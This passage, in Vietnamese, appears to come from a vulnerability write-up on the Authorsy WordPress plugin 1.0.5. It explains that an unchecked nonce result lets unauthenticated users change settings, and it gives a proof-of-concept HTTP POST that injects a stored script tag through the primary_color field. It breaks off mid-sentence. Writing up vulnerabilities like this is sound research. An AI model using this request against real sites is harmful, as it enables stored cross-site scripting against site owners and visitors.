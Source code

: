 Hàm `update_settings` nhận dữ liệu **JSON** từ request, decode thành các cặp **key-value** và cập nhật chúng vào cơ sở dữ liệu. Trước khi thực hiện update, ứng dụng gọi `$this->verify_nonce( $request );` để kiểm tra **nonce**.

```php
public static function verify_nonce($request) {
    $nonce = $request->get_header('X-WP-Nonce');

    if (!wp_verify_nonce($nonce, 'wp_rest')) {
        return new \WP_Error('invalid_nonce', __('Invalid nonce.', 'authorsy'), ['status' => 403]);
    }

    return true;
}
```
{: file="wp-content/plugins/authorsy/base/api.php v1.0.5" }

Điểm quan trọng:
- Khi **nonce** không hợp lệ, hàm chỉ trả về một đối tượng `WP_Error`, nhưng không dừng chương trình.
- Trong `update_settings`, giá trị trả về của **verify_nonce** không được kiểm tra => code vẫn tiếp tục thực hiện cập nhật.

👉 Như vậy, ta có thể thay đối giá trị của CSS chứa XSS payload trong database mà không cần đặc quyền gì cả => CSS được thêm vào `<head>` chứa mã độc

---

## Exploit
### Detect XSS
Gửi **POST** request đến `/wp-json/authorsy/v1/settings` với XSS payload

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost

Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

Ta đóng thẻ `<style>` (CSS trong head) và inject thêm thẻ `<script>` chứa XSS payload.

Truy cập một trang bất kỳ 
